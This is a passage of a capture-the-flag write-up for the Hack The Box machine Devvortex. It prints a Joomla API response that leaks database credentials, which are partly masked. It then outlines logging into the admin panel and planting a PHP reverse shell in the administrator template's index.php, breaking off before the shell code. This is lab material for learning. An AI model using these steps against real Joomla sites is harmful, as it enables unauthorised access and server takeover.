 ```bash
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lew**","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1********","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

If we sign in with those credentials, you then are able to acess this admin landing page

![joomla-admin](/assets/images/machines/htb/devvortex/admin-landing.png)

At this point I looked up ways that I could inject code into the CMS. Since this site runs PHP, there is a chance we can inject a PHP reverse shell into the site. For Joomla, we can do this by going to __System->Templates->Administrator Templates->index.php__. The index.php file is the first that is loaded by the CMS (*I think this the case, not 100% sure*), we can insert our reverse shell here. I just put in a simple one on the second line of the file:
